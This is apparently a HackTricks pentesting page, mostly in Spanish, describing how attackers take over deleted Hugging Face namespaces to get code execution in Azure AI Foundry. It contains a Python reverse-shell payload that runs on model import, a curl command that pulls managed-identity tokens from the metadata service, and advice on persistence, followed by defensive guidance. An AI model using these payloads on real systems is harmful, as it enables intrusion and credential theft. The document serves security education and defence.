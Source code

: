 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Escenario

- Azure AI Foundry Model Catalog incluye muchos modelos de Hugging Face (HF) para despliegue con un clic.
- Los identificadores de modelos HF son Author/ModelName. Si un author/org de HF es eliminado, cualquiera puede volver a registrar ese author y publicar un modelo con el mismo ModelName en la ruta heredada.
- Pipelines y catálogos que tiran solo por nombre (sin commit pinning/integrity) resolverán a repositorios controlados por el atacante. Cuando Azure despliega el modelo, el código del loader puede ejecutarse en el entorno del endpoint, otorgando RCE con los permisos de ese endpoint.

Casos comunes de HF takeover:
- Ownership deletion: la ruta antigua devuelve 404 hasta el takeover.
- Ownership transfer: la ruta antigua responde 307 hacia el nuevo author mientras el author antiguo exista. Si el author antiguo es posteriormente eliminado y registrado de nuevo, el redirect falla y el repo del atacante sirve en la ruta heredada.

## Identifying Reusable Namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Flujo de ataque de extremo a extremo contra Azure AI Foundry

1) En el Model Catalog, busca modelos HF cuyos autores originales fueron eliminados o transferidos (autor antiguo eliminado) en HF.
2) Vuelve a registrar al autor abandonado en HF y recrea el ModelName.
3) Publica un repo malicioso con código loader que se ejecuta al import o que requiere trust_remote_code=True.
4) Despliega el Author/ModelName legado desde Azure AI Foundry. La plataforma descarga el repo del atacante; el loader se ejecuta dentro del contenedor/VM del endpoint de Azure, causando RCE con los permisos del endpoint.

Fragmento de payload de ejemplo ejecutado al import (solo para demostración):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Las implementaciones de AI Foundry que integran HF típicamente clonan e importan módulos de repo referenciados por la configuración del modelo (p. ej., auto_map), lo que puede desencadenar ejecución de código. Algunas rutas requieren trust_remote_code=True.
- El acceso normalmente coincide con los permisos del managed identity/service principal del endpoint. Trátalo como un initial access foothold para data access y lateral movement dentro de Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumera variables de entorno y endpoints MSI en busca de tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Verifique el almacenamiento montado, los artefactos del modelo y los servicios de Azure accesibles con el token adquirido.
- Considere la persistencia dejando artefactos de modelo envenenados si la plataforma los vuelve a obtener desde HF.

## Orientación defensiva para usuarios de Azure AI Foundry

- Fije los modelos por commit al cargarlos desde HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Espejar modelos HF verificados en un registro interno de confianza y desplegar desde allí.
- Escanear continuamente repositorios de código y defaults/docstrings/notebooks en busca de Author/ModelName codificados en duro que hayan sido eliminados/transferidos; actualizar o fijar.
- Validar la existencia del autor y la procedencia del modelo antes del despliegue.

## Heurísticas de reconocimiento (HTTP)

- Autor eliminado: la página del autor devuelve 404; la ruta heredada del modelo devuelve 404 hasta que se produzca una toma de control.
- Modelo transferido: la ruta heredada responde 307 hacia el nuevo autor mientras que el autor antiguo existe; si el autor antiguo es eliminado más tarde y vuelve a registrarse, la ruta heredada sirve contenido del atacante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referencias cruzadas

- Consulte la metodología más amplia y las notas sobre la cadena de suministro:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referencias

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
